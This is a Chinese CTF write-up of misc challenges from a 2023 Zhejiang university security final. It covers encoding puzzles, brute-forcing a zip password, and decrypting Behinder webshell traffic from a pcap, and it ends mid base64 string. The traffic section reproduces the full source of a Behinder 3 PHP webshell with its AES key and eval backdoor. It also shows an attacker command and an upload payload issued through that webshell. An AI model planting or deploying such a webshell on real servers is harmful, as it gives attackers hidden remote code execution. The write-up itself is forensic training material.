




# 2023浙江省大学生网络与信息安全决赛-Misc篇 - 先知社区

2023浙江省大学生网络与信息安全决赛-Misc篇

- - -

## 比赛概述

emmmm怎么说呢，难受死了，好多题目都是临门一脚的状态。。。  
比赛当时是断网环境，真的是可惜了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104550-40ecbe70-842a-1.jpg)

## Misc-1：Xcode v5.8

### 1 题目内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104603-483d2bc4-842a-1.png)

直接给了一个 `flag.txt`，里面有一串字符串

### 2 解题思路

题目提示使用 `X encode`，于是在 `CaptfEncoder` 中可以找到 `XXencode` 编码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104618-51b74284-842a-1.png)

解密后，看着像Base编码，遂尝试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104627-5717692a-842a-1.png)

成功解出Flag

## Misc-2：Ez\_Signin

### 1 题目内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104637-5ce1b072-842a-1.png)

题目给了一个加密的压缩包，里面放着个 `flag.txt`

### 2 解题思路

### 2.1 爆破压缩包

尝试压缩包伪加密，发现修改十六进制后压缩包报错，判断为真加密  
通过查看压缩包的十六进制，发现末尾跟着一个字符串，是Base64编码的格式

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104648-637b9a24-842a-1.png)

```plain
V2hhdF9pU190SGlzXzI3NTYyNmQ2NTdlNmY1NTY2Nzk2NjY=
```

Base64解码后为以下内容：

```plain
What_iS_tHis_275626d657e6f556679666
```

发现又给了一串字符串，遂尝试解密：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104701-6b3db3e6-842a-1.png)

```plain
five number
```

于是对压缩包进行5位数字的爆破：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104710-70abcb88-842a-1.png)

拿到解压密码：11452，成功解压出 `flag.txt`

### 2.2 按键精灵大藏玄机

解压出来的 `flag.txt`，内容如下图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104721-76ff0e32-842a-1.png)

看着又像是Base系列编码，遂解码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104732-7db9f0ac-842a-1.png)

用Base32编码成功解出内容，但仔细一看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104743-83f5a47a-842a-1.png)

这像是给鼠标和键盘的移动和输入参数，于是想到按键精灵：  
**但当时比赛我们没准备按键精灵，线下又是断网环境，我真的醉了**

按键精灵下载地址：[http://download.myanjian.com/](http://download.myanjian.com/)

安装完毕后，新建一个空白脚本：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104753-8a0ee8bc-842a-1.png)

然后点击“源文件”，将刚才解码的内容粘贴进来

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104809-93713112-842a-1.png)

然后点击“保存退出”，就回到主界面，发现多了一个脚本：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104820-99f71560-842a-1.png)

因为猜测是画图，遂打开画板，点击热键 `F10` 启动该脚本：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104833-a1f95282-842a-1.png)

成功画出Flag的内容，但在绘画过程中，下方还有一部分字符串被擦除了，于是找到脚本的相关位置，删除 `Ctrl + Z` 撤销的相关代码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104846-a9c2518a-842a-1.png)

删除9633行到9690的脚本，再次点击“保存退出”，并再次运行脚本：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104909-b7a30e84-842a-1.png)

成功画出清晰的Flag

## Misc-3：NewGrating

### 1 题目内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104925-c1015800-842a-1.png)

给了一个 `.pcap` 的数据包，名字叫“蝎子”，盲猜是冰蝎（Behinder）的WebShell流量分析

### 2 解题思路

用WireShark打开数据包，追踪TCP流，可以看到流量详情

### 2.1 拿到上传的PHP

一上来，好家伙，直接上传了一个冰蝎的PHP的WebShell，果然是冰蝎的流量分析：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104939-c8fa9350-842a-1.png)

上传了一个PHP文件，名字是 `shell.php`，内容如下：

```plain
<?php
@error_reporting(0);
session_start();
    // $key="e45e329feb5d925b"; //........................32...md5.........16........................rebeyond
    $key="e46023a69f8db309"; //DASCTF
    $_SESSION['k']=$key;
    session_write_close();
    $post=file_get_contents("php://input");
    if(!extension_loaded('openssl'))
    {
        $t="base64_"."decode";
        $post=$t($post."");

        for($i=0;$i<strlen($post);$i++) {
                 $post[$i] = $post[$i]^$key[$i+1&15]; 
                }
    }
    else
    {
        $post=openssl_decrypt($post, "AES128", $key);
    }
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
    class C{public function __invoke($p) {eval（后面会替换为printf）($p."");}}
    @call_user_func(new C(),$params);
?>
```

可以看到，这是一个经典的冰蝎马，我们在本地搭建PHP环境，将这个马跑起来  
**注明：这里是冰蝎3的木马，连接密码为 `DASCTF`**

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116104958-d45cfd32-842a-1.png)

成功连上WebShell，至于为什么要在本地运行该WebShell，这个请看下文

### 2.2 获得解密流量的方法

冰蝎的流量是加密的，所以我们要解密对应的流量：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105012-dcd8360c-842a-1.png)

如图所示，该数据包显示对 `Shell.php` 进行POST传参，传的是加密的内容，那此时此刻，我们应该怎么样解密这个流量呢？

这个时候，很多师傅就会回头去看那个冰蝎3的WebShell源码，通过源码写出解密的脚本对相关数据包进行解密  
**但并不需要那么麻烦，我们手头可是有源码的呀~**

有了源码，就意味着我们有了以下两个内容：

-   WebShell的密钥（`$key="e46023a69f8db309"; //DASCTF`）
-   原生的加解密方法（WebShell的源码里面给出了方法）

那不就手到擒来？？来到我们之前搭建的本地环境，找到最后的代码执行点：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105024-e454942a-842a-1.png)

将 `eval` 改为 `printf` 并保存，如图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105040-ed7f3bcc-842a-1.png)

这个时候，我们就能将最终代码的执行结果输出出来了（而不是执行）  
**具体思路可以看我早期写的这篇文章：[对于某些畸形PHP的加密和解密方法](https://blog.zgsec.cn/archives/147.html)**

然后将加密的数据内容，复制过来POST传参到本地环境当中：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105052-f4e8be56-842a-1.png)

成功解出最终执行的代码，内容如下：

```plain
eval(base64_decode('Base64编码的数据'));
```

冰蝎的加密流量是多层嵌套执行的，我们再通过Base64解码，在最下面可以发现最终的代码主体部分：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105107-fd8e71c2-842a-1.png)

继续对相关内容进行解码，最终获得执行的解密内容：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105119-0499ab44-842b-1.png)

发现攻击者在服务器上通过WebShell执行了以下内容：

```plain
cd /www/admin/www.webshell.com_80/wwwroot/upload/ ;ls
```

这就是解密流量的方法

### 2.3 分析后续流量

我们继续追踪TCP流，在流到4的时候，是流量的主体部分  
由于流4的内容太过巨大，需要稍等一段时间，然后全选复制出来粘贴到外面的TXT里面

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105136-0eb90502-842b-1.png)

这里我们在左下角选择筛选出发送的数据包即可，因为我们要解密发送的包而不是返回的包，然后全选复制出来  
这里推荐用 `UEStudio` 或者其他编辑器来做，因为文本文件太大TXT会卡

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105153-194844f6-842b-1.png)

然后对粘贴出来的内容进行分割，可以发现总共有7轮的发包，我这边已经分割好了  
对相关的数据包依次进行解密，解密方法在上面已经提到

**这里要关注第2轮的数据包，解密后主体内容如下：**

```plain
$mode="dXBkYXRl";$mode=base64_decode($mode);
$path="L3d3dy9hZG1pbi93d3cud2Vic2hlbGwuY29tXzgwL3d3d3Jvb3QvdXBsb2FkL1Bhc3N3b3JkLnBuZw==";$path=base64_decode($path);
$hash="";$blockIndex="MA==";$blockIndex=base64_decode($blockIndex);$blockSize="MzA3MjA=";$blockSize=base64_decode($blockSize);
$content="aVZCT1J3MEtHZ29BQUFBTlNVaEVVZ0FBQWxnQUFBRXNDQVlBQUFBZlBjMldBQUFQcTBsRVFWUjRuTzNkMjVLck5nSUYwRDVUOC8rLzNGT25VbDNUNVdBc3BLMGJyUFdTeEdrYkxDU3hFVUwrOC8zOS9mMEZBRURNZnhRbEFFQ1dnQVVBRUNaZ0FRQ0VDVmdBQUdFQ0ZnQkFtSUFGQUJBbVlBRUFoQWxZQUFCaEFoWUFRSmlBQlFBUUptQUJBSVFKV0FBQVlRSVdBRUNZZ0FVQUVDWmdBUUNFQ1ZnQUFHRUNGZ0JBbUlBRkFCQW1ZQUVBaEFsWUFBQmhBaFlBUUppQUJRQVFKbUFCQUlRSldBQUFZUUlXQUVDWWdBVUFFQ1pnQVFDRUNWZ0FBR0VDRmdCQW1JQUZBQkFtWUFFQWhBbFlBQUJoQWhZQVFKaUFCUUFRSm1BQkFJUUpXQUFBWVFJV0FFQ1lnQVVBRUNaZ0FRQ0VDVmdBQUdFQ0ZnQkFtSUFGQUJBbVlBRUFoQWxZQUFCaEFoWUFRSmlBQlFBUUptQUJBSVFKV0FBQVlRSVdBRUNZZ0FVQUVDWmdBUUNFQ1ZnQUFHRUNGZ0JBbUlBRkFCQW1ZQUVBaEFsWUFBQmhBaFlBUUppQUJRQVFKbUFCQUlRSldBQUFZUUlXQUVDWWdBVUFFQ1pnQVFDRUNWZ0FBR0VDRmdCQW1JQUZBQkFtWUFFQWhBbFlBQUJoQWhZQVFKaUFCUUFRSm1BQkFJUUpXQUFBWVFJV0FFQ1lnQVVBRUNaZ0FRQ0VDVmdBQUdFQ0ZnQkFtSUFGQUJBbVlBRUFoQWxZQUFCaEFoWUFRSmlBQlFBUUptQUJBSVFKV0FBQVlRSVdBRUNZZ0FVQUVDWmdBUUNFQ1ZnQUFHRUNGZ0JBbUlBRkFCQW1ZQUVBaEFsWUFBQmhBaFlBUUppQUJRQVFKbUFCQUlRSldBQUFZUUlXQUVDWWdBVUFFQ1pnQVFDRUNWZ0FBR0VDRmdCQW1JQUZBQkFtWUFFQWhBbFlBQUJoQWhZQVFKaUFCUUFRSm1BQkFJUUpXQUFBWVFJV0FFQ1lnQVVBRUNaZ0FRQ0VDVmdBQUdFQ0ZnQkFtSUFGQUJBbVlBRUFoQWxZQUFCaEFoWUFRSmlBQlFBUUptQUJBSVFKV0FBQVlRSVdBRUNZZ0FVQUVDWmdBUUNFQ1ZnQUFHRUMxZ0wrL1BuamUyem9hZC8zU0drWktDdmdhUVFzWXI2L3YvLzFVVTZzYlpUZlozL0xTRG5sSmN2VThlR0pCQ3dBNEpGNmh2OXRBdFpSSWFSZjR6NGNYM3I1cVZ1LzY1ajZ4cTVLejZNcjJhVzlSUUxXcmtGbjlmMSt0OTNYMTNYdTY5ZTNsWTdSRG0xekZ5UGJvb3ZNZVdiMTl5dnBkVUh4cVc3dVBNOXoyZ2hXYThld1lzZXkra2tVWmRYaXFOMGR6YnNidVQ4anQzRjFlK29WcTltNVR1NjQ3MXZQd2ZyZHVmOFUvbEdIWC9MYUV6cERIWDQ1WmJXVzNzZkRTQkNmckg3c2Q2aWJuL1ludmIrenYzOTF3TnB4eUZSSFdDZDlvbkdTYXJOYnB6bVNldlNQdTRUREhZL25uZXZnMFMzeGxXNWRyM1liUFRLQ1ZUcHFWUHJlbEpyQ3FSMEJHMldsZlZuWjN6SlJWdVZXS3F0VlQxQS81WEZXVmovL2ZQY2QwdCt0cGIvU0Z0NjdjL0FzZWUvSXVsRlROM2VwdTh2Y0l2eDcwRnM3aG5USGNxVVNweWVrdDZidWtsdWdUN3ZhZi9kOVYybXNSL3UzV2tleTB2Nms5K1ZxZTNnWDRqKzlaM1ZHQWUraDlEaXVNQmlTMk82S2JjczZXQTlYZXpVejRqWDRYZDlHbi9oYlIzM1U2V3VlZEd1Tlo3aE53UG8wTkYvNi9zUStBSi90c094QVNadmVwZDIzN0tlQU1PODJhOHRJMU90cnJmdDc5SGt0STB5dFpUcGpnT0FLSTFnUDh2UUFtRDdCUEwwOFY3VHlNVmt4cEtqRHd1TklSMC8rbDZxcHE3UHJ0NEFWa3A3bzc3YmNYSDVYc1Y3cjNNVTcwTGFlYTBSZnEzN3RRY0NDRzdqVGtpWk9Ibk1wLzN1WHdjcmY3VzdsSGcxWXJ2Q3ZtMVZtSTdmYjZ5Y1dWcFNjRzFUNmhPZ3NWNzVYeTJLL1R4cDl2Y3ZUdm1mNzNGcHZ6ajV2cGZJYmNkSGpuTHMySTFpTnJsVDZsaVVhU3Y1MjluWmZsNlU0VzRTdVpyL1RpOXFOR3ZXcHVkMDRzK01zMmZhb2hZWXRoRm0yN2Q5dGNNUjJTOXA1emY2Y3RkdWY3Y3d1ODk1clVQWDZySnB0ejdvUVgvSHphZ2hZRjZ3MHQ2UkhhRnBsdTZzM3RCNmZWekl5bFRxSnpkN0cwZWZkYlpTbTV2MmxvejQ3Qk04alYwYTFTa04rYlgwdEtjUFpBYWJsZ3JlbW4wN1VxZEhucGRiVkEzcXJEbGp1MHgrN3k1RHQxU3ZpMVBkZWZSajhqbGRaUDBhRnF4WXp3c1d1YmJySENUTjVrWG1YZGoyaW5HdTJjWGFPWHVrQ2VPUjJSKys3RWF3MzByZEpydHcrNnUxMXRPVHNlNXo5M2V0L3Y1c3I4L3NxWTlTNktWZm43YXc0NHRaempaaFpJNkJubjFuNjQrMmZQbXZIRWIwZnJ3dXFybnhTZVQxR0l5OCt6dXBRU2IrVTNyY2VGNWl6MW1Celd6NUh3R3AwWlJKbTd6Q1ZYa1N1NW4zdi92MUlJdFQwQ2dDOWJpR1VualRPVGxycEUzQ3QxZXR6alJVNjc5TEZJV2Y5WHR5VkJTMlQrL2p1NGl5OW1PYW5mV2o1MjVhMW5ONjl0N1RPN3JpT1ZJc1Y5cjFid0pwNWhkekRsZjFNWDlHMWpKUzFOUEtXVWJ3cjJ5MHRyOW1ySnRkdS80NVhoSGRjMTZkMUgwWWQ1N05SNEIxT2lHZjdlSFgvZTMzZmtqbVJzeVgyNzhvRmNhMmVBYkQzdnJlNjdRaFdhMmRYRzB3K1hXMmtLa0x0bFZSclpVOWRMVjRwbjVVYVR5S2MvdTY4UzIrWlh1M3dXMFBUMlhHK09vS1dEQjVYYmpFbnQvbmJqTUQ4NlR2dlBOSlFjbUYxbDdtdHRWWUpuaW16OW0vMGRwY09XS3RmSlk4OFdDdk14VmloMGM0WUZmenFzQ3IvMGQvVXppWDdGRHA2SHZmV0M1SFMvLy91VnVtc1FENnFMYXgyb3J4U0YxcEM0YXo1UjFlVXp2KzdPayt3UjN0OWVrQ2RaYnNSckpVclN2clIweEZtakFpa3BXOHRYcDAvTXV2dldxVDNlUVZYOTdYblpQaFIvVlRpaEQ3RDBmNk1ta3QxTkkzaXlsemFJeXVNY3I1VFV0WTl0a0hIZ0xWYkI2NkM5RFdpZkd0SHBlNTY3SHUwclpxSi9WZmYxM0xiY2VWUjJ0MHZaTzRrUGZtK3hZZ0FsRFI3THV4T1BFWFkyYnVybzk0VmFKVW56YzcwbnRTNHc1WDhLcFRWTWFIb09XcnF1ell5em81dDhUWUI2OTBqOEMzM3Y4OUdPR1kxckUvN012cjI0cnY5dVByYUp6cXlkWTJZZ0x0eTUzbzJtcWJlMWxGdWN5WDc4cDNueXJWYUptQ3QxSUhXRE5uV0hweWpUdmhLV0N6ZGw5WUt0VXNvMm5FZTNHeTdmdGZlKzMxbFl2MkkvU25kNXVwUDRyNjZVLzFMSEEranB2KzNlOUNlRXJDdXpKOXc2K0pZNjJQNExZR3d0eFhtRHRWODNoTTZ4anM5b2JlaTFucTY0bHpISGJYVXdkM0xaL1duRUhmcUgyNDlCNnQycmFqVzdmV2FnTHVTMTdWcGZ1YWFmUXJFUHlNQXM0SmE3WEZPaldxT1dDcWs1OEtoTG03S21BaWNkL2FrNXRuREZEdGVwUGRhQW9LeGJoV3dlZzNQbnIwMk9paVU3a3ROQjMvMCtITE4rNmdyTTUzcXZub0dxaDJPclZHdGU0Mjg3bmFiK2N6TTIraTNDVmdqcnhoYkhpTS9VcnB3Wk8zU0Y2MmZSN203alZJK1dZK091ZllpYUZhOVdyRU9KS1k2dkRycTI1TVhOenVzUStaaUxtK3BnTlVyYVNZcVJLOEtPV09pN29qUFBac01mRGJVdjVxejIzdzdkelM3ZDZaUEQzL3YzS1ZjZHBucjErdmhwOVZwZjJXMkdjRmE2WUIrQ24wclBXWFVVL29wbXFjdk9udUhKOEptV3UxazFuTTVpanZlTnJ3YSttZjJQNzNiNEYzNzFpTjNmbURJUXFPTlpsV0UxdTNXZHVTanRyc3I0ZWVZY3NuYnRlKzVPK1hERHdIckRmZVorVVJIZWt6YmFhUDhqdlVjM2J2amlOSFZxU2wzSFNHYlNjQXF0RU9GYk8yQWF2ZnA2blpYYjR5amxwR1lTV2U2ajNjUHFheEVuV2lqL081SndMcmd5WTBndGQ3UzZwNHlmdzVXVXhQd2QxeHZyRWUvbVN5SDBYT2k3dHkzVGc5WTZaK0VhVGxZaHViM00rSkpvS1E3cmlpdjNkeGZ5ekZXUDlvOHVmeDJ2N0EzZ25WenUweUVUVGFhVmE0NGpYcnRSUkM0cHFWK2F4dkg3ckFFVEl1N2ZlOW93TkpvNkMxVng5VFZPc29Oc25ac1V5NUd5blFid2JxeTZ2bXJwM2ZpaHVQL01mcTd6Q3c3eDd5Y3pwMnZEcXU0TTlhTzgrZXUydTRXNGF6d3BSR2VVejcvS0NtSFhWYXA3dVZ2R2QyeHZ1ejBDd1VyV2FYTlBFRk5uVlNQNjBVQ1Zzc0JXUDIzcnA2azVmY1RWeWx6SGZGYVBpMHhjUGVuVTEvbjFLaWZheklLVEE5RFI3QjBMdjgyNG9kQ2E5Ly84M3VDVjk3ZjYyOWJ0dlBWcWU3cHBJNzFmbVI4cEo3YmIzbGFPdkczSloreGVoMC9HelU4Vys5dng3WjdwYjZjL2FqNGFqOVkvV2wva3UxazlISGY1aGJoV2NIczBsaEs5L011OTZhUEd2blozTHpXZmVwWmJqM0txN1JqK2ZUYWFMTitRUHhkV2Z4SUhQL2FUcnIzZktBcnI5ZSt0dEk4d09SZGtUdk81U3pwQjM2WHcxbjk2Vm1mZTlubGRueTNnRFY3bnNuTTBiS1pCN3VtYytteERFSDZLbmlGdGFyT3JncDdiSy8yNzBaLzFnZzl5djcxYzFaWlRMSGtiMU9qTUtYbFduS3k3cTAwVENUTWJoOHIxWmRkN3p5dDBNZE5HY0c2eXdHYmNXSk1mT2JWOHY4OSt2U3VERW9iK2Ruck05Zk9ldFg3WjRPTzNsYzc4bkNIVysrcFl6bnE5cytkYnpHTk5ycXRsU3JwNzBzZjJCaXhabGpMU05UdmR2TnBlNzB1TkhmNHZLc2lBV3ZHMWNNcUo1WGF3UEg3NzBwUG9wL0s1ZDJ3OGJ2R2MzYWlIajN2NCt5elV2T3QwbGR3TlhXdzlmY2lhejZ2NWJjaVcrYnYxZTdUNzBCL3BSMzFVanR5OG1tZlN2YzVQWm94NnJOR2poQmVWZnR6T3lWMThxdFRtRTNVbDlSRjdNemJzRHN0Y1B2WWxkdy9OWlFlbmNQVlJyM0Q3eitkbGRQUk50Nk5WaDAxMEpZVFM3ckJmM29hcnVUOVYxODdLcXZhMGI1UCs5S2k5THU5YWgySkd4RW1Sb2Vicy8yb3FVTlgzL3Y2ZXZMaTRreHRmL3Z1ZmJVQjZsMDUxZGJOMm5LL3VwM2F6MHJWNzBTL1ZMUGRtcjlMdmEvRU5nRnJwOXNncXcrYjl0cHU2ZFZPN2VlL2UrK2R5N3MydlBTVUh0a29mVTlyeUMzZFRzM2Z6RGdtcTlmVEVkdGQ4Yk5YUFZmOURrR2xGOEtyS2dua0szeUgvL2Jld0lncm9OVUR5T3FwZnZWYkZTTzJrYTZuNmJJYUZTSlh1cTNUT29yUjA4dzJYZnRaZHdwR3Zkdk1xTDV1cFZHWEdlZVVkMys3NG1oVWpUL2ZDMGJWMHZ2Y3E3dkw5eWpWOG4yVjFWcWZOMnVmbjFZUGdQdGFNbUFCNjlreEZBTE1JbUFCQUlROTlpbENBSUJlQkN3QWdEQUJDd0FnVE1BQ0FBZ1RzQUFBd2dRc0FJQXdBUXNBSUV6QUFnQUlFN0FBQU1JRUxBQ0FNQUVMQUNCTXdBSUFDQk93QUFEQ0JDd0FnREFCQ3dBZ1RNQUNBQWdUc0FBQXdnUXNBSUF3QVFzQUlFekFBZ0FJRTdBQUFNSUVMQUNBTUFFTEFDQk13QUlBQ0JPd0FBRENCQ3dBZ0RBQkN3QWdUTUFDQUFnVHNBQUF3Z1FzQUlBd0FRc0FJRXpBQWdBSUU3QUFBTUlFTEFDQU1BRUxBQ0JNd0FJQUNCT3dBQURDQkN3QWdEQUJDd0FnVE1BQ0FBZ1RzQUFBd2dRc0FJQXdBUXNBSUV6QUFnQUlFN0FBQU1JRUxBQ0FNQUVMQUNCTXdBSUFDQk93QUFEQ0JDd0FnREFCQ3dBZ1RNQUNBQWdUc0FBQXdnUXNBSUF3QVFzQUlFekFBZ0FJRTdBQUFNSUVMQUNBTUFFTEFDQk13QUlBQ0JPd0FBRENCQ3dBZ0RBQkN3QWdUTUFDQUFnVHNBQUF3Z1FzQUlBd0FRc0FJRXpBQWdBSUU3QUFBTUlFTEFDQU1BRUxBQ0JNd0FJQUNCT3dBQURDQkN3QWdEQUJDd0FnVE1BQ0FBZ1RzQUFBd2dRc0FJQXdBUXNBSUV6QUFnQUlFN0FBQU1JRUxBQ0FNQUVMQUNCTXdBSUFDQk93QUFEQ0JDd0FnREFCQ3dBZ1RNQUNBQWdUc0FBQXdnUXNBSUF3QVFzQUlFekFBZ0FJRTdBQUFNSUVMQUNBTUFFTEFDQk13QUlBQ0JPd0FBRENCQ3dBZ0RBQkN3QWdUTUFDQUFnVHNBQUF3Z1FzQUlBd0FRc0FJRXpBQWdBSUU3QUFBTUlFTEFDQU1BRUxBQ0JNd0FJQUNCT3dBQURDQkN3QWdEQUJDd0FnVE1BQ0FBZ1RzQUFBd2dRc0FJQXdBUXNBSUV6QUFnQUlFN0FBQU1JRUxBQ0FNQUVMQUNEcDYrdnJmMDJLbTFYVlNKVmZBQUFBQUVsRlRrU3VRbUND";
$content=base64_decode($content);
```

通过对 `$path` 进行Base64解码，发现攻击者通过WebShell上传了一张png图片：

```plain
/www/admin/www.webshell.com_80/wwwroot/upload/Password.png
```

再对 `$content` 进行两层的Base64解码，解密后如下：

```plain
iVBORw0KGgoAAAANSUhEUgAAAlgAAAEsCAYAAAAfPc2WAAAPq0lEQVR4nO3d25KrNgIF0D5T8/+/3FOnUl3T5WAspK0brPWSxGkbLCSxEUL+8/39/f0FAEDMfxQlAECWgAUAECZgAQCECVgAAGECFgBAmIAFABAmYAEAhAlYAABhAhYAQJiABQAQJmABAIQJWAAAYQIWAECYgAUAECZgAQCECVgAAGECFgBAmIAFABAmYAEAhAlYAABhAhYAQJiABQAQJmABAIQJWAAAYQIWAECYgAUAECZgAQCECVgAAGECFgBAmIAFABAmYAEAhAlYAABhAhYAQJiABQAQJmABAIQJWAAAYQIWAECYgAUAECZgAQCECVgAAGECFgBAmIAFABAmYAEAhAlYAABhAhYAQJiABQAQJmABAIQJWAAAYQIWAECYgAUAECZgAQCECVgAAGECFgBAmIAFABAmYAEAhAlYAABhAhYAQJ